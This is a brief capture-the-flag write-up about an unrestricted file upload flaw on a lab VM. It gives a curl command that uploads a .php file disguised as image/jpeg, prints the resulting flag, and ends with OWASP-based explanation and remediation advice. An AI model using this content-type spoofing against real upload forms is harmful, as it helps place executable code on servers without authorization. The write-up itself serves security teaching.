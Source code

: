 # File Upload

![file_upload](./img/file_upload.png)
On the page ```http://[VM_IP]/?page=upload```
Let's try to transfer an empty python script instead of a picture using curl.
```
curl -F "Upload=send" -F "uploaded=script.php;type=image/jpeg" http://192.168.56.106/index.php\?page\=upload
```

So, we get the flag
```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


## Explanation
Attack type: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload): Unrestricted File Upload
> Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked.
> Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

## How to fix it
> The application should perform filtering and content checking on any files which are uploaded to the server.
> Files should be thoroughly scanned and validated before being made available to other users.